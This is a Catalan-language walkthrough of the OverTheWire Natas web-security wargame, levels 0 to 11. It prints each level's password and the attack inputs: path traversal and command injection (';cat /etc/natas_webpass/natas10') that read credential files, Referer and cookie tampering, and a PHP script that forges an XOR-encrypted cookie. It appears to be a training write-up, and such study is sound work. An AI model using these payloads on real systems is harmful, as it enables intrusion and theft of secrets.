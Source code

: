 # LEVEL 0

Inspeccionem l'element i podem veure un comentari en el div "content".

![Level0](img/level0.png)
```
g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
```

# LEVEL 1

Al estar bloquejat el click dret fiquem 
view-source:http://natas1.natas.labs.overthewire.org/
![Level1](img/level1.png)

```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

# LEVEL 2

Inspeccionem i veiem que carrega una imatge que té la ruta de /files. Accedim i veiem que en aquest directori hi ha un fitxer users.txt
![Level2](img/level2.png)

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# LEVEL 3
En el codi no trobem res, mirem el robots.txt i viem que surt /s3cr3t/ entrem en aquest directori i trobem el fitxer users.txt amb la password.
![Level3](img/level3.png)

```
tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

# LEVEL 4

Modifiquem la petició amb el BurpSuite ja que ens diu que només accepta peticions del natas5, modifiquem el referer per http://natas5.natas.labs.overthewire.org/
![Level4](img/level4.png)

```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```


# LEVEL 5
Mirem la petició amb el BurpSuite, veiem que té un paràmetre que té el valor 0, li fiquem el valor 1 i ja podem entrar.
![Level5](img/level5.png)


```
Cookie: loggedin=0
```
```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

# LEVEL 6

Si cliquem a view source, podem veure un tros de codi php. On veiem un include includes/secret.inc, aquí dins hi ha una variable amb la contrasenya que hem de ficar a l'input per poder obtenir la contrasenya del Natas7.
Fallo: secret de forma gloabal

http://natas6.natas.labs.overthewire.org/includes/secret.inc

![Level6](img/level6.png)


```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

# LEVEL 7

index.php?page= obre la pàgina, si mirem el codi veiem que el password està /etc/natas_webpass/natas8

Fallo: path traversal

![Level7](img/level7.png)

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```
# LEVEL 8
Viem que en el codi PHP, fa un encode del $encodedSecret, ho descodifiquem i obtenim el valor que hem de ficar a l'input.


![Level8](img/level8.png)

```
<?php
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

function decode($secret){
	return base64_decode(strrev(hex2bin($secret)));
}

echo (decode("3d3d516343746d4d6d6c315669563362"));
```
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```
# LEVEL 9
Sabent que les contrasenyes es troben al directori /etc/natas_webpass/natasX i mirant el codi podem veure que es poden executar comandes des de l'input fem un cat del fitxer.

![Level9](img/level9.png)


```
;cat /etc/natas_webpass/natas10

```
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

# LEVEL 10
Com que ara en el codi amb expressions regulars no podem ficar ; en l'input fem un grep de la lletra A, per casualitat la password té el caràcter A i se'ns mostra.

![Level10](img/level10.png)


```
a /etc/natas_webpass/natas11
```
```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

# LEVEL 11
Veiem que a la pàgina, les dades estan xifrades mitjançant XOR i emmagatzamades a la cookie, si aconseguim ficar el valor en YES ens mostrara la password. 

```
<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}
?>
```

decode coockie value base64
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh(.*-(.n6

Cookie original amb valor NO:
**MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D**

Hem de modificar la cookie perquè tingui el valor YES.
```
<?php

$originalstring = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"));

function xor_encrypt($in) {
    $key = 'KNHL';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo(base64_encode(xor_encrypt($originalstring))); 

?>
```
Cookie original amb valor YES:
**MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz**

Modifiquem la petició amb el BurpSuite per modificar el valor de la Cookie:

```
GET /?bgcolor=%23ffffff HTTP/1.1
Host: natas11.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxMToxS0Zxb0pYaTZoUmFQbHVBbWs4RVNEVzRmU3lzUm9JZw==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas11.natas.labs.overthewire.org/?bgcolor=%23ffffff
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9
Cookie: data=MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
Connection: close
```

![Level11](img/level11.png)

Clau:
```
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

```


